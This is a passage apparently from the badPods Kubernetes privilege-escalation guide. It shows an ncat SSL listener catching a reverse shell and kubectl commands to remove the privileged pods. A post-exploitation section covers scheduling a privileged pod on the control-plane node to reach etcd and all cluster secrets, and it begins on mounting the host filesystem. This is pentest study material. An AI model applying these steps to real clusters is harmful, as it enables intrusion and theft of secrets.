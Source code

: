 **Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/priv/pod/priv-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
kubectl delete pod priv-exec-pod
kubectl delete cronjob priv-exec-cronjob
```
# Post exploitation

## Can you run your pod on a control-plane node
*This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane.*

The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. 

**Get nodes**
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

**Pick your manifest, uncomment and update the nodeName field with the name of the control-plane node**
```
nodeName: k8s-control-plane
```
**Create your pod**
```
kubectl apply -f manifests/priv/job/priv-exec-job.yaml
```

## Mount the host's filesystem
Some of the privesc paths are not available if you mount the node's filesystem in this way. That said, it is easy enough to do that you might as well mount the device and see what you can see. 
